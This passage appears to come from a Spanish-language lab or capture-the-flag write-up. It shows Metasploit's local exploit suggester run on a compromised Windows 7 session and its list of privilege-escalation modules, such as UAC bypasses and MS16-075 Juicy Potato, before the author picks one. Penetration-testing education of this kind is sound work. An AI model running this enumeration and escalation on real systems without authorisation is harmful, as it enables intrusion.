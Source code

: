 Lo configuramos y lo ejecutamos:
```bash
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
SESSION => 2
msf6 post(multi/recon/local_exploit_suggester) > exploit
*] Running check method for exploit 42 / 42
[*] 192.168.1.010 - Valid modules for session 2:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.                                                                             
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.                                                                             
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!  
 4   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.                                                                             
 5   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                             
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                             
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.                                                                             
 8   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.                                                              
 9   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.                                                                             
 10  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.                                                                             
 11  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```
Parece que la máquina es vulnerable a varios Exploits, pero me llama la atención el módulo `exploit/windows/local/ms16_075_reflection_juicy`, pues por lo que entiendo, es la versión de **Juicy Potato**, pero de **metasploit**.

<br>
